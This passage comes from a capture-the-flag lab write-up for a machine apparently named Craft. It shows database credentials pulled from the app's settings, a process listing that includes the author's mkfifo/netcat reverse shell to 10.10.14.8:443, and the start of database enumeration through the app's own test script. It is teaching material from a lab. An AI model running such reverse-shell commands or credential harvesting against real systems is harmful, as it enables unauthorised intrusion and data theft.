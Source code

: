 ```
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False

```

There are no home dirs, and `/root` is empty. Besides stuff I started, the process list is basically `python` running the api app:

```

~ # ps auxww
PID   USER     TIME  COMMAND
    1 root      8:57 python ./app.py
   71 root      0:00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|n
   74 root      0:00 cat /tmp/f
   75 root      0:00 /bin/sh -i
   76 root      0:00 nc 10.10.14.8 443
 7186 root      0:00 python -c import pty;pty.spawn("sh")
 7187 root      0:00 sh
 7204 root      0:00 ps auxww
12925 root      0:00 [sh]
13251 root      0:01 [GQzvn]
13256 root      0:00 [ping]
13275 root      0:00 [GCpGS]
13290 root      0:01 [vvQnJ]
13295 root      0:00 [sh]
13308 root      0:00 [ash]
13388 root      0:00 [ibOSe]

```

### Database Enumeration

#### Connecting

With the db creds, I wanted to see what else was in the database. But I lacked the tooling. `mysql` wasn’t on the box. Getting tunnels to and from the box were also difficult (surely solvable, but would have been a pain).

So I opted to use `python` and the scripts on the box. There’s a `dbtests.py` script in the app root:

```

#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

```